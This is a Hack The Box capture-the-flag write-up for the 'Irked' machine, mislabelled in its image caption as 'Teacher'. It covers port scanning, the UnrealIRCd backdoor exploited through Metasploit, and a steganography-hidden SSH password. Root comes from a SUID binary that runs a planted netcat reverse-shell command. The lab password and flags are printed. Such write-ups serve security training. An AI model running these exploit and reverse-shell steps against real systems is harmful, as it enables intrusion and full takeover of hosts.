 ![HTB Teacher (10.10.10.153) Write-up](./screenshots/irked.jpeg)

## PART 1 : Initial Recon

```console
nmap --min-rate 1000 -p- -v 10.10.10.117
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8000/tcp  open  http-alt
8067/tcp  open  infi-async
46040/tcp open  unknown
65534/tcp open  unknown
```
```console
nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117
```
```
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open   rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          35800/tcp  status
|_  100024  1          56850/udp  status
6697/tcp  open   ircs-u?
|_irc-info: Unable to open connection
8000/tcp  closed http-alt
8067/tcp  open   infi-async?
|_irc-info: Unable to open connection
46040/tcp closed unknown
65534/tcp open   unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---

## PART 2 : Port Enumeration

1. Open http://10.10.10.117 (default: __port 80__)
   - Landing Page: 

     ![Landing Page](./screenshots/80_irked.png)

   - Page Source:
     ```html
     <img src=irked.jpg>
     <br>
     <b><center>IRC is almost working!</b></center>
     ```
   __Notes__:
   - The pages only contains an image named __*irked.jpg*__
   - It seems to be pointing us to the __*IRC service*__ on __port 6697__
   - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

2. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     msfconsole
     
     use exploit/unix/irc/unreal_ircd_3281_backdoor

     show options
     # Name    Current Setting  Required  Description
     # ----    ---------------  --------  -----------
     # RHOSTS                   yes       The target address range or CIDR identifier
     # RPORT   6667             yes       The target port (TCP)

     set RHOSTS 10.10.10.117
     set RPORT 6697

     run
     # [*] Started reverse TCP double handler on 10.10.15.122:4444 
     # [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
     #     :irked.htb NOTICE AUTH :*** Looking up your hostname...
     # [*] 10.10.10.117:6697 - Sending backdoor command...
     # [*] Accepted the first client connection...
     # [*] Accepted the second client connection...
     # [*] Command: echo 4JezGWGL0WskDMqt;
     # [*] Writing to socket A
     # [*] Writing to socket B
     # [*] Reading from sockets...
     # [*] Reading from socket A
     # [*] A: "4JezGWGL0WskDMqt\r\n"
     # [*] Matching...
     # [*] B is input...
     # [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...
     ```
   - While inside shell:
     ```console
     id
     # uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     cd /home/djmardov
     cd Documents
     ls -lah
     # drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
     # drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
     # -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
     # -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     cat .backup
     ```
     ```
     Super elite steg backup pw
     UPupDOWNdownLRlrBAbaSSss
     ```
   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ on the http service on port 80

---

## PART 3 : Generate User Shell
1. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     ![Irked Steg](./screenshots/80_irked_steg.png)

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```
2. Login via SSH with user __djmardov__
   ```console
   ssh -l djmardov 10.10.10.117
   # djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG
   ```
   While inside shell:
   ```console
   cat ~/Documents/user.txt
   # 4a66a78b12dc0e661a59d3f5c0267a8e
   ```

---

## PART 4 : Privilege Escalation (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   find / -uid 0 -perm -4000 -type f 2>/dev/null
   # ...
   # /usr/bin/viewuser
   # ...
   ```
2. Try to run __*/usr/bin/viewuser*__
   ```
   This application is being devleoped to set and test user permissions
   It is still being actively developed
   (unknown) :0           2019-04-27 13:17 (:0)
   djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
   sh: 1: /tmp/listusers: not found
   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file is not found.
     - __*/tmp/listusers*__ will be run as root no matter who owns it
3. Create payload:
   ```console
   echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
4. Establish __root__ shell:
   1. Local terminal:
      ```console
      nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      id 
      # uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      find / -name root.txt
      # /root/root.txt

      cat /root/root.txt
      # 8d8e9e8be64654b6dccc3bff4522daf3
      ```
